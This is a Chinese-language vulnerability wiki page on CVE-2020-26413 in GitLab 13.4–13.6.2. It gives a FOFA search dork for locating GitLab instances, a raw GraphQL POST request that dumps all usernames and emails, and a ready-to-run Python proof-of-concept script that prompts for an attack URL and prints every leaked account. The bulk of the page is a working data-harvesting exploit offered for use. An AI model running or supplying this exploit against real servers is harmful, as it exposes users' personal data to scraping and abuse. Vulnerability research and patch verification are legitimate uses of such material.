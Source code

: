 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

> [!NOTE]
>
> GitLab 13.4 - 13.6.2

## FOFA

> [!NOTE]
>
> title="GitLab"

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告 

https://gitlab.com/gitlab-org/gitlab/-/issues/244275

![](http://wikioss.peiqi.tech/vuln/gitlab-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer

![](http://wikioss.peiqi.tech/vuln/gitlab-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱

![](http://wikioss.peiqi.tech/vuln/gitlab-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

发包调用了 **/api/graphql** 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![](http://wikioss.peiqi.tech/vuln/gitlab-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功返回数据，造成 Gitlab的用户邮箱信息泄露

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: GitLab 13.4 - 13.6.2                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/api/graphql"
    user_number = 0
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/json",
    }
    try:
        data = """
        {"query":"{\\nusers {\\nedges {\\n  node {\\n    username\\n    email\\n    avatarUrl\\n    status {\\n      emoji\\n      message\\n      messageHtml\\n     }\\n    }\\n   }\\n  }\\n }","variables":null,"operationName":null}
        """
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data ,verify=False, timeout=5)
        if "email" in response.text and "username" in response.text and "@" in response.text and response.status_code == 200:
            print('\033[32m[o] 目标{}存在漏洞, 泄露用户邮箱数据....... \033[0m'.format(target_url))
            for i in range(0,999):
                try:
                    username = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["username"]
                    email = json.loads(response.text)["data"]["users"]["edges"][i]["node"]["email"]
                    user_number = user_number + 1
                    print('\033[34m[o] 用户名:{} 邮箱:{} \033[0m'.format(username, email))
                except:
                    print("\033[32m[o] 共泄露{}名用户邮箱账号 \033[0m".format(user_number))
                    sys.exit(0)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/gitlab-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> GitLab_Graphql_Email_information_disclosure.json

![](http://wikioss.peiqi.tech/vuln/gitlab-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

